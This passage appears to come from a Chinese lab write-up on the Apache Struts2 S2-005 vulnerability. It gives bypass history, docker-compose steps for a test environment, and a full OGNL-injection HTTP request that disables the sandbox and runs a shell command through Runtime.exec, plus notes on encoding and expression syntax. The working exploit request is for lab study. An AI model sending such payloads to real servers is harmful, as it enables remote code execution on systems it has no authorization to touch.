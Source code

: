 - S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```plain
docker-compose build
docker-compose up -d
```

## POC && EXP

### 执行任意命令POC（无回显，空格用`@`代替）

```http
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36
```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：

![img](assets/1670311540202-e25d9c0f-ea7e-4e44-ab8a-e8e7d9221b9b.jpeg)



大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。
